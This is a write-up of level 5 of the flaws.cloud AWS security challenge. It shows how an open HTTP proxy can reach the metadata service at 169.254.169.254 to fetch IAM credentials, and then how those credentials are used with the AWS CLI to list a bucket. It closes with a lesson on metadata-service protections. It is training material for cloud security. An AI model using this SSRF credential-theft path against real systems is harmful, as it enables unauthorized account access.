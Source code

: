 # level 5
level 5 has a simple HTTP proxy on it (only HTTP, not HTTPS)

Using the proxy, you can exploit the metadata service at 169.254.169.254 (same for all cloud services). You should have been able to find your way from
`http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/`
to
`http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws/`

which lists the security credentials for level 6. You can add a profile to your AWS CLI and use that to list the contents of level 6

`aws --profile level5 s3 ls level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud`

Note that you need to specify the aws_session_token in your ~/.aws/credentials file or you will get an InvalidAccessKeyId error

## Lesson learned
The IP address 169.254.169.254 is a magic IP in the cloud world. AWS, Azure, Google, DigitalOcean and others use this to allow cloud resources to find out metadata about themselves. Some, such as Google, have additional constraints on the requests, such as requiring it to use `Metadata-Flavor: Google` as an HTTP header and refusing requests with an `X-Forwarded-For` header. AWS has recently created a new IMDSv2 that requires special headers, a challenge and response, and other protections, but many AWS accounts may not have enforced it. If you can make any sort of HTTP request from an EC2 to that IP, you'll likely get back information the owner would prefer you not see. 